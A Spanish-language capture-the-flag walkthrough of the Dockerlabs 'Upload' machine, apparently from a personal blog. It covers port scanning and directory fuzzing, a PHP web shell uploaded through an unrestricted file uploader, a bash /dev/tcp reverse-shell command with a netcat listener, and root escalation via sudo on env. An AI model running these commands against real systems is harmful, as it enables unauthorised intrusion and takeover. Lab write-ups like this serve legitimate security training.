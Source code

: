 ```yaml
---
title:  "Upload - Dockerlabs"
header:
  teaser:
categories: 
  - CTFs
tags:
  - Dockerlabs
---
```


La máquina **Upload** se puede encontrar en [Dockerlabs](https://dockerlabs.es/) y está catalogada como de nivel muy fácil. Mediante fuzzing, encontraremos un cargador de archivos del que podremos abusar para obtener una reverse shell en la máquina víctima. Para escalar privilegios, podremos aprovechar los permisos que tiene el usuario sobre el binario `/env`.

## Reconocimiento

Comienzo desplegando la máquina docker con el script de auto_deploy. Voy a comprobar que se encuentra activa haciendo un ping.

```shell
ping -c 1 172.17.0.2                                                                                                                    
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.273 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.273/0.273/0.273/0.000 ms
```

El siguiente paso es hacer un nmap para ver que puestos tiene abiertos. Utilizo los siguientes parámetros:

- -p-: Escanear todos los puertos (65535).
- –open: Mostrar solo los puertos abiertos.
- -sS: Realiza un TCP SYN Scan para escanear rápidamente que puertos están abiertos.
- –min-rate 5000: Indicamos que el escaneo no vaya más lento que 5000 paquetes por segundo.
- -vvv: El modo verbose nos muestra la información según se va encontrando.
- -n: No realizar resolución de DNS. Así evitamos que el escaneo dure más tiempo del necesario.
- -Pn: Deshabilitar el descubrimiento de host mediante ping.
- -oG: Exportar el resultado a un fichero en una sola línea para que podamos usar comandos como: grep, awk, sed, etc. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allports                                                            

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:15 EDT
Initiating ARP Ping Scan at 12:15
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:15, 0.03s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:15
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:15, 0.76s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000060s latency).
Scanned at 2024-05-28 12:15:56 EDT for 1s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.90 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)
```

Solo encuentra 1 puerto abierto: 

- 80 (HTTP)

Ejecuto otro nmap para analizar los servicios y versiones de esos puertos. Los comandos usados son:

- -sCV: Detectar el servicio y aplicar scripts básicos de reconocimiento.
- -p: Indicar los puertos a escanear.
- -oN: Exportar el resultado a un archivo.

```shell
nmap -sCV -p80 172.17.0.2 -oN target                                                                                                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-28 12:20 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 85.03% done; ETC: 12:20 (0:00:00 remaining)
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.34 seconds
```

Uso whatweb para ver que tecnologías se usan en la web.

```shell
whatweb http://172.17.0.2                                                                                                               
http://172.17.0.2 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[172.17.0.2], Title[Upload here your file]
```

Para enumerar archivos y directorios uso la herramienta dirsearch. Le indico que no me muestre varios códigos de estado HTTP.

```shell
dirsearch -u http://172.17.0.2 --exclude-status 403,404,500,502,400,401                                                                                                                
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/upload/nmap/reports/http_172.17.0.2/_24-05-28_12-21-37.txt

Target: http://172.17.0.2/

[12:21:37] Starting: 
[12:22:05] 200 -  503B  - /upload.php                                       
[12:22:05] 200 -  404B  - /uploads/                                         
[12:22:05] 301 -  310B  - /uploads  ->  http://172.17.0.2/uploads/          
Task Completed
```

## Análisis de vulnerabilidades

Accedo a la web y encuentro la página que viene por defecto en la instalación de apache.

![Upload 1](/assets/images/2024-05-28-Upload/upload_1.png)

Voy a la ruta de "uploads" que ha encontrado dirsearch, pero veo que está vacía.

![Upload 2](/assets/images/2024-05-28-Upload/upload_2.png)

En el archivo "upload.php " me encuentro con un subidor. Creo un fichero de prueba y lo subo.

![Upload 3](/assets/images/2024-05-28-Upload/upload_3.png)

Compruebo como se ha guardado en /uploads, el cual antes estaba vacío.

![Upload 4](/assets/images/2024-05-28-Upload/upload_4.png)

## Explotación de vulnerabilidades

Voy a crear un payload en php que me permita explotar un RCE utilizando la función shell_exec.

![Upload 5](/assets/images/2024-05-28-Upload/upload_5.png)

Subo el fichero y accedo a él. Usando el parámetro "cmd", introduzco el comando `whoami` y veo como se ejecuta correctamente.

![Upload 6](/assets/images/2024-05-28-Upload/upload_6.png)

El siguiente paso es obtener una reverse shell. Me pongo en escucha con netcat y ejecuto el comando `bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4321 0>%261"` (importante hacer URL encode de & a %26). Consigo obtener acceso al sistema.

```shell
nc -nlvp 4321                                                            
listening on [any] 4321 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 37384
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@0c5eb0247473:/var/www/html/uploads$ whoami
whoami
www-data
www-data@0c5eb0247473:/var/www/html/uploads$ 
```
## Escalada de privilegios

Para tener una consola interactiva, hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$
```

La shell todavía no es interactiva del todo. Podemos ver que la variable de entorno $TERM tiene el valor dump y no xterm. Podemos arreglar esto de la siguiente forma. 

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ echo $TERM
dumb
www-data@0c5eb0247473:/var/www/html/uploads$ export TERM=xterm
```

La proporción de la consola no es igual a la de terminal. Miro el tamaño con `stty size`.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty size
24 80
```

En la máquina hay 24 filas y 80 columnas, pero en mi kali son 63 filas y 281 columnas. Las modifico para que tengan el mismo espacio.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ stty rows 63 columns 281
```

Reviso información del usuario actual.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Compruebo si el usuario actual tiene algún permiso especial. Veo que puede ejecutar `/usr/bin/env` como root sin necesidad de proporcionar una contraseña.

```shell
www-data@0c5eb0247473:/var/www/html/uploads$ sudo -l
Matching Defaults entries for www-data on 0c5eb0247473:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0c5eb0247473:
    (root) NOPASSWD: /usr/bin/env
```

Buscando, encuentro en [env-GTFOBins](https://gtfobins.github.io/gtfobins/env/) como obtener una shell como root usando el binario `/env`. Ejecuto `sudo env /bin/sh` y consigo ser usuario root.

```shell
$ sudo env /bin/sh
# whoami
root
```
